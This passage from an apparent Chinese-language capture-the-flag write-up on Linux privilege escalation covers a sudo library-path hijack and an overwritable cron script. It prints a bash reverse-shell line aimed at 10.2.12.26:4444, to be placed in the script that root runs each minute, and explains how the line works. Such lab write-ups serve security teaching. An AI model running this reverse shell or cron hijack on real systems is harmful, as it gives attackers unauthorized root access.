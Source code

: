 而`/home/user/tools/sudo/library_path.c`的内容是

![](img/ef9cd4bdceef925b690d7af95cd228fe.png)

基本上，这些程序运行一个对`/bin/bash`的系统调用来产生一个 shell，因为我们用 sudo 运行它，我们得到一个根 shell

这就是为什么进程独立于被调用的库

# 任务 8: Cron 作业-文件权限

所以我们看到`overwrite.sh`每分钟都被执行

哦，顺便说一下，如果你在阅读 cron 工作时间方面有困难，请访问 [crontab guru](https://crontab.guru)

所以现在，我们可以通过在`overwrite.sh`中编写我们的代码来连接到我们的本地机器，生成一个 shell，当它被 root 用户执行时，我们将得到一个 shell

在 unix 系统中，打开端口(或套接字？不确定)，是通过像访问文件一样访问`/dev/`中的协议和端口来完成的(如果我是对的，它被称为文件描述符)

所以，我们的代码应该是

```
#!/bin/bash
bash -i >& /dev/tcp/10.2.12.26/4444 0>&1
```

**说明:**

*   第一行:shebang 表示解释器，这里是 bash
*   第二行:`bash -i`打开一个交互式 shell，`>& /dev/tcp/10.2.12.26/4444`将所有流重定向到我们的本地机器，`0>&1`将 **stdin** 和 **stdout** 重定向到 **stdout**

因此，在编辑了`overwrite.sh`中的代码之后，我们在本地机器上监听，等待一个 shell
